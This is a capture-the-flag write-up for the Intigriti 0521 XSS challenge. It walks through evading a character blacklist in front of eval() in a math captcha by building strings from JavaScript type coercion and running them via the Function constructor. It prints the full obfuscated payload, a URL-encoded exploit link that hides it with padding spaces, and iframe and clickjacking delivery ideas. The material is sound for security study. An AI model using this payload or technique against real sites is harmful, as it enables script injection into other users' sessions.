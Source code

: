 # Intigriti 0521 XSS challenge

[Link](https://challenge-0521.intigriti.io/) to the challenge

## Introduction and preconditions
This XSS challenge is about a capture that shall proof, that the user is not a robot. The task the user has to do is a simple calculation. The capture is embedded in an iframe and shows an equation like `123 + ___ = 124`. The user now has to calculate the number to fill in and submit it. If the equation is correct he is "obviously not a robot". The check of the user input is done in javascript. The aim of this challenge is to abuse the capture to create a cross-site scripting attack.

![captcha](https://user-images.githubusercontent.com/83693398/137777606-6def33bf-a45b-402c-8ea0-63043779f27f.png)

So let's have a look into the calculation function, that checks the equation:

``` javascript
function calc() {
    const operation = a.innerText + b.innerText + c.value;
    if (!operation.match(/[a-df-z<>()!\\='"]/gi)) { // Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
        if (d.innerText == eval(operation)) {
            alert("🚫🤖 Congratulations, you're not a robot!");
        }
        else {
            alert("🤖 Sorry to break the news to you, but you are a robot!");
        }
        setNewNumber();
    }
    c.value = "";
}
```
So what we can see here is that an operation is build up (it contains the predefined number `a.innerText`, the operator `b.innerText` and the user provided number `c.value`). To prevent an XSS attack there is then a blacklist of characters. And if the operation doesn't contain any of these blacklisted characters, the operation is processed with an eval and compared to the predefined result `d.innerText`.

So it seems that to successfully perform the attack we will have to bypass the blacklist and abuse the `eval`-function. So the next step is to analyse which characters we have to play with:

* We can use backticks, curly brackets and the dollar sign. This allows at least some string literals
* We can use square brackets and numbers. This allows us to reference attributes of an object or index an array
* We can use the character e
* We can use operators like plus and minus
* We can use a dot to access attributes of an object
* We can use spaces

That's a lot to play with. So the first step will be to generate our payload string `alert(document.domain)`. To do that, we will take advantage of some auto-cast functionality of javascript. For example the result of `1/0` is `Infinity` and by adding some string to the result, javascript will convert that automatically into a string. So

``` javascript
1/0+`` => "Infinity"
```

We can now access single characters by just using that string as an array and index the character we want to have. But before that, we have to group it in any way. We are not allowed to use parentheses, but we have at least to other possibilities:

``` javascript
(1/0+``)[0]     // This would give as an "I", but doesn't pass the blacklist
[1/0+``][0][0]  // Would do the trick by grouping our string as element in an array. After that we can index the string itself and then the character
`${1/0}`[0]     // The usage of a string literal would also give us the string "Infinity" and we can use the square brackets to access the character we want
```

### Payload
Well, we have some possibilities to access single characters. Now we need to create strings that contain all the characters we need. We already have the string "Infinity", but we also need some characters like `r,d,o,...`. As a background: the browsers put all id and name attributes as property into the global namespace. Lucky us, there is an element with the id `e`:

``` html
<progress id="e" value="0" max="100" style="display:none"></progress>
```

Referencing it inside a string literal gives us the following string:

``` javascript
`${e}` => "[object HTMLProgressElement]"
```

Now we need also an `a` and some parentheses:

An `a` can be easily created by adding undefined to any number. That gives "NaN":

``` javascript
`${e[0]+1}` => "NaN"
```

This is a lot of characters. So let's have a look, if it's enough:

```
a `${e[0]+1}`[1]
l `${e}`[21]
e `${e}`[22]
r `${e}`[16]
t `${e}`[6]
( 
d `${e[`e`]}`[2]
o `${e}`[1]
c `${e}`[5]
u `${e[`e`]}`[0]
m `${e}`[23]
e `${e}`[22]
n `${e}`[25]
t `${e}`[6]
. `.`
d `${e[`e`]}`[2]
o `${e}`[1]
m `${e}`[23]
a `${e[0]+1}`[1]
i `${e[`e`]}`[5]
n `${e}`[25]
) 
```

Okay. We have everything but the parentheses. To get that, we have to create another string in two steps. We will need to reference any function to use that without actually calling it, so that javascript generates a string that contains parentheses:

``` javascript
// Let's look for a function
`${e["blur"]}` // gives us the string "function blur() {\n    [native code]\n}"

// Now we have to create "blur" as well
`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}` // gives us "blur"

// Putting it together:
`${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}` // gives us the string we need with only allowed characters

( `${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}`[13]
) `${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}`[14]
```

And now we have everything we need: concatenating all these snippets with a `+`, we can generate our payload `alert(document.domain)`. But what now? Throwing this expression into the `eval`-function, will just return the string. So we need a way to execute this string.

### Execution
I had to think a while to get an idea how to execute the payload. Then I remembered, that we already used a function: `e.blur`. We can also access properties with the square brackets. This allows us to access the function constructor. And looking at the documentation, this gives us a possibility to define a new function and provide a string that will be executed as function body: https://developer.mozilla.org/de/docs/Web/JavaScript/Reference/Global_Objects/Function

So we can use the function constructor in combination with tagged template-strings (https://developer.mozilla.org/de/docs/Web/JavaScript/Reference/Template_literals#tagged_template-strings)

``` javascript
// Basic example, that will pop an alert
Function`e${`alert(1)`}```
```

The first string literal sets the function body to `alert(1)` and the second calls the function.

Applying it to our payload and function would look like this:

``` javascript
e["blur"]["constructor"]`e${`alert(document.domain)`}```
```

Of course this is a simplified version, that wouldn't pass the blacklist. To bypass the blacklist we also have to create the string "constructor" like we did for the payload. I skip the process and just present the full payload:

``` javascript
e[`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[16]][`${e}`[5]+`${e}`[1]+`${e}`[25]+`${e}`[18]+`${e}`[6]+`${e}`[16]+`${e[`e`]}`[0]+`${e}`[5]+`${e}`[6]+`${e}`[1]+`${e}`[16]]`e${`${e[0]+1}`[1]+`${e}`[21]+`${e}`[22]+`${e}`[16]+`${e}`[6]+`${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}`[13]+`${e[`e`]}`[2]+`${e}`[1]+`${e}`[5]+`${e[`e`]}`[0]+`${e}`[23]+`${e}`[22]+`${e}`[25]+`${e}`[6]+`.`+`${e[`e`]}`[2]+`${e}`[1]+`${e}`[23]+`${e[0]+1}`[1]+`${e[`e`]}`[5]+`${e}`[25]+`${e[`${`${e}`[2]+`${e}`[21]+`${e[`e`]}`[0]+`${e}`[13]}`]}`[14]}```
```

## Exploit
For now, we can put this payload into the input field and pop the alert box. But that's just self-XSS. That means we need to find a way, to execute this in the context of another user. There are at least to different possibilities:

* After trying some parameter names on the captcha.php endpoint, I found, that I can set the value of c. This is the user-input. So one way to make this XSS work, could be to just provide the payload as parameter c and prepending a lot of spaces and a +. This would make it unvisible in the limited input-box, so that if the user enters a value, it would just be inserted between the leading spaces.
  
```
https://challenge-0521.intigriti.io/captcha.php?c=++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++%2Be[`%24{e}`[2]%2B`%24{e}`[21]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[16]][`%24{e}`[5]%2B`%24{e}`[1]%2B`%24{e}`[25]%2B`%24{e}`[18]%2B`%24{e}`[6]%2B`%24{e}`[16]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[5]%2B`%24{e}`[6]%2B`%24{e}`[1]%2B`%24{e}`[16]]`e%24{`%24{e[0]%2B1}`[1]%2B`%24{e}`[21]%2B`%24{e}`[22]%2B`%24{e}`[16]%2B`%24{e}`[6]%2B`%24{e[`%24{`%24{e}`[2]%2B`%24{e}`[21]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[13]}`]}`[13]%2B`%24{e[`e`]}`[2]%2B`%24{e}`[1]%2B`%24{e}`[5]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[23]%2B`%24{e}`[22]%2B`%24{e}`[25]%2B`%24{e}`[6]%2B`.`%2B`%24{e[`e`]}`[2]%2B`%24{e}`[1]%2B`%24{e}`[23]%2B`%24{e[0]%2B1}`[1]%2B`%24{e[`e`]}`[5]%2B`%24{e}`[25]%2B`%24{e[`%24{`%24{e}`[2]%2B`%24{e}`[21]%2B`%24{e[`e`]}`[0]%2B`%24{e}`[13]}`]}`[14]}```
```
Now this could be inserted into a malicious website as an iframe, tricking the user to enter a number and click the button

* The second possibility also uses the fact, that the captcha.php-endpoint can be embedded as an iframe. This could be used to combine the self-XSS with a clickjacking attack.
